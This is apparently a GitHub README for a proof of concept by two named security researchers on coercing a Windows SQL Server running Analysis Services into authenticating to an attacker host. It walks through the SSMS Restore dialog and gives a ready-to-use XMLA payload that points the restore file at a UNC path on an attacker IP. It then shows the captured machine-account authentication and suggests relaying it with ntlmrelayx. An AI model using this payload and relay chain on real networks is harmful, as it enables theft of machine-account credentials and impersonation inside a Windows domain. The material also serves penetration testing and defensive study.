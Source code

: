 # MSSQL Analysis Services - Coerced Authentication

A technique to coerce a Windows SQL Server to authenticate on an arbitrary machine.

This proof of concept is co-authored by <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a> and <a href="https://twitter.com/intent/follow?screen_name=_Worty" title="Follow"><img src="https://img.shields.io/twitter/follow/_Worty?label=Worty&style=social"></a>.


## Proof of concept

In order to trigger the authentification as the local machine account, we need to connect to the remote SQL Server using user credentials:

![](./.github/sql_analysis_connect.png)

Then we will select "Restore" to restore the database from a given file.

![](./.github/restore_db.png)

To generate the XMLA file, put the path to a random file in the "Backup File" form, and click Ok.

![](./.github/accessed_xml_script.png)

Then change the path to a random file and replace it with a UNC path to your attacker server (for example `\\192.168.128\SYSVOL\db.abf`)

![](./.github/unc_path_in_xml_file.png)

Proof of concept XMLA query ([poc.xmla](./poc.xmla)):

```xml
<Restore xmlns="http://schemas.microsoft.com/analysisservices/2003/engine">
    <File>\\192.168.2.51\SYSVOL\db.abf</File>
    <DatabaseName>\\192.168.2.51\SYSVOL\db.abf</DatabaseName>
    <DbStorageLocation xmlns="http://schemas.microsoft.com/analysisservices/2008/engine/100/100">\\192.168.2.51\SYSVOL\db.abf</DbStorageLocation>
</Restore>
```

And we get an authentication from the local machine account of the SQL Server:

![](./.github/responder_auth.png)

## Relaying for the win

Once we got the authentification, we can relay it with `ntlmrelayx` to perform many actions on behalf of the computer `SQL01$`.

This is cool, but it is complicated to trigger this coerced authentication from a Linux attacking machine as we do not have access to the SQL Server Management Studio (SSMS). 

## References
 - https://docs.microsoft.com/en-us/sql/database-engine/install-windows/install-sql-server?view=sql-server-ver15
 - https://social.technet.microsoft.com/wiki/contents/articles/13106.sql-server-frequently-used-ports.aspx
 - https://docs.microsoft.com/en-us/answers/questions/274512/connecting-to-azure-analysis-services-using-python.html
